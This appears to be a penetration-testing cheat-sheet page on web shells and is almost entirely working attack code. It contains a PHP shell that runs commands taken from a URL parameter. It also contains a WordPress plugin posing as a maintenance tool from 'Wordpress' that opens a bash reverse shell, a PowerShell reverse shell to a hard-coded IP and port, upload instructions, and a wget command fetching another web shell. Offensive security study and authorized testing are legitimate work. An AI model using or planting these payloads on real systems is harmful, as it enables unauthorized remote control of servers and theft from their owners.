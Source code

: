 title: Web Shells

# Basic PHP

Simple PHP webshell, add `?cmd={command}` to the URL.

```php
<?php
echo "You entered <pre>" . $_GET['cmd'];
system($_GET['cmd']);
?>
```

# Wordpress

You can abuse the wordpress plugin feature to get a reverse shell if you have access to install plugins.

* Linux Host
```php
<?php

/**
 *  Plugin Name: Wordpress Maint Shell
 *  Author: Wordpress
 **/ 
exec("/bin/bash -c 'bash -i >& /dev/tcp/{IP-ADDRESS}/{PORT} 0>&1'")
?>
```

* Windows Host ( powershell )
```php
<?php

/**
 *  Plugin Name: Wordpress Maint Shell
 *  Author: Wordpress
 **/ 
exec("powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('10.9.5.198',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'");
?>
```
Save the above to a file, compress into a `.zip` archive and then upload & activate.

# Simple-PHP-Web-Shell

[Simple-PHP-Web-Shell](https://github.com/artyuum/Simple-PHP-Web-Shell) by [Artyumm](https://github.com/artyuum) is nice webshell that includes a command box and nicely formatted output

```
wget https://raw.githubusercontent.com/artyuum/Simple-PHP-Web-Shell/master/index.php
```

![](https://raw.githubusercontent.com/artyuum/Simple-PHP-Web-Shell/master/screenshot.png)
